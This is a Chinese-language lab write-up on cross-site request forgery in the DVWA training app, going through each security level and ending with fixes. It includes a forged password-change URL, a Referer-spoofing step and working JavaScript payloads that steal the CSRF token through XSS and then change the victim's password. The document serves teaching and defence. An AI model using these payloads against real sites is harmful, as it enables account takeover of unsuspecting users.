

# CSRF

改密接口接受一个构造好的链接，用户登录状态下打开就被改密。原理是浏览器发请求会自动带上目标站 Cookie，而服务端只凭 Cookie 认人。

## 漏洞在哪

```text
GET /dvwa/vulnerabilities/csrf/?password_new=x&password_conf=x&Change=Change
```

敏感操作用 GET，无 token，不验 Referer，也不要求旧密码。三样缺一样都不至于这么容易。

## 等级对照

| 等级 | 防护 | 本机结果 |
|---|---|---|
| Low | 无 | `img` 标签自动触发改密 |
| Medium | 校验 Referer 含主机名 | 改 Referer 后成功 |
| High | 加 `user_token` | 单打失败，配 XSS 取 token 后成功 |
| Impossible | token + 当前密码 | 打不进去 |

## Low

| 项 | 内容 |
|---|---|
| 触发方式 | ``，打开页面即发请求 |
| 是否需要点击 | 不需要 |
| 结果 | 密码被改为 `hacked` |

```html
<h1>正常页面</h1>

```

`<script>`、`<iframe>`、`<a>` 也能干同样的事。核心不是"链接危险"，是**敏感操作放在 GET 上**：GET 会被预加载、被图片引用、被爬虫抓，URL 到了浏览器手里攻击就完成了。

## Medium

| 项 | 内容 |
|---|---|
| 防护 | `strpos($_SERVER['HTTP_REFERER'], $_SERVER['SERVER_NAME']) !== false` |
| 问题一 | 字符串包含不是域名校验，`127.0.0.1:8000` 也含 `127.0.0.1` |
| 问题二 | Referer 可被隐私设置、代理、插件去掉，很多实现拿不到就放行 |
| 验证 | Burp 改 `Referer: http://127.0.0.1/dvwa/vulnerabilities/csrf/` 后成功 |


## High

| 项 | 内容 |
|---|---|
| 防护 | 表单带 `user_token`，缺失或错误即失败 |
| 单打 | 构造 URL 或随意填 token 均失败 |
| 组合 | 同源 XSS 先取 token，再带 token 发请求 |
| 前提 | 站点存在可利用的 XSS |

```html
<script>
fetch('/dvwa/vulnerabilities/csrf/')
  .then(r => r.text())
  .then(t => {
    let m = t.match(/name=['"]user_token['"] value=['"]([^'"]+)['"]/);
    if (m) fetch('/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token=' + m[1]);
  });
</script>
```

`<script>` 被过滤时换事件属性：

```html
r.text()).then(t=>{let m=t.match(/name=['\x22]user_token['\x22] value=['\x22]([^'\x22]+)['\x22]/);if(m){fetch('/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token='+m[1])}})">
```



结论：token 能挡住"从外部站点伪造请求"，挡不住"同源脚本代发请求"。有 XSS 就等于 token 公开。

## Impossible

```text
Current password: ____
New password:     ____
Confirm:          ____
```

改密要求填当前密码。攻击者能伪造请求，但不知道受害者现在的密码，这一栏填不出来。这条比 token 硬，因为它不依赖任何脚本能读到的值。

## 容易记错的地方

- Low 不需要写表单，一个 `img` 就够，因为接口在 GET 上。
- Medium 用另一端口起恶意页面时，Referer 里确实含 `127.0.0.1` 但请求仍可能失败，Cookie 的端口与 Path 策略跟直觉不同，用 Burp 改头验证逻辑更干净。
- High 的正则在 HTML 属性里被吃掉一层转义，`\x22` 要按实际上下文调整，改单引号包属性最稳。
- 只验证"用户已登录"不等于防了 CSRF。

## 怎么修

| 措施 | 作用 |
|---|---|
| 敏感操作改 POST | 消除图片、预加载类触发 |
| CSRF token 绑 Session | 每次请求校验 |
| `SameSite=Lax/Strict` | Lax 已能挡住多数跨站 POST |
| 二次验证 | 改密、改绑、转账要求旧密码或短信码 |
| 校验 Origin | 比 Referer 可靠，但仍不能单独依赖 |
| 修 XSS | 有 XSS 时 token 等于公开 |
